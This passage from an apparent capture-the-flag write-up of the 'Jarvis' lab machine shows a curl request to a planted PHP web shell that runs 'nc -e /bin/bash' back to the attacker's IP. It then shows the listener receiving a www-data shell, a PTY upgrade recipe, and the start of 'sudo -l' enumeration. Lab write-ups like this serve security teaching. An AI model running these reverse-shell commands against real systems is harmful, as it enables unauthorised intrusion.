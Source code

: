 

It looks like it appended some nulls on the end for some reason,
probably a part of the sqli file write. But it still works.

#### Shell

I can use that to get a shell:



    root@kali# curl -s http://10.10.10.143/0xdf.php?cmd=nc+-e+/bin/bash+10.10.14.8+443





    root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.143.
    Ncat: Connection from 10.10.10.143:37142.
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)



### Shell Upgrade

With either shell, I'll upgrade with the standard technique:

1.  `python -c 'import pty;pty.spawn("bash")'`
2.  \[ctrl-z\] to background shell
3.  `stty raw -echo`
4.  `fg`
5.  `reset`
6.  Enter `screen` if asked for a terminal type.

Now I have a full terminal, with arrows, tab completion, etc:



    www-data@jarvis:/var/www.md$ 



## Priv: www-data --\> pepper

### Enumeration

Before I go through the trouble of uploading `LinEnum.sh` to target, I
usually run `sudo -l` just to check what commands I might be able to run
as another user without a password. Here this gives me a good lead:



    www-data@jarvis:/var/www.md$ sudo -l
    Matching Defaults entries for www-data on jarvis:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
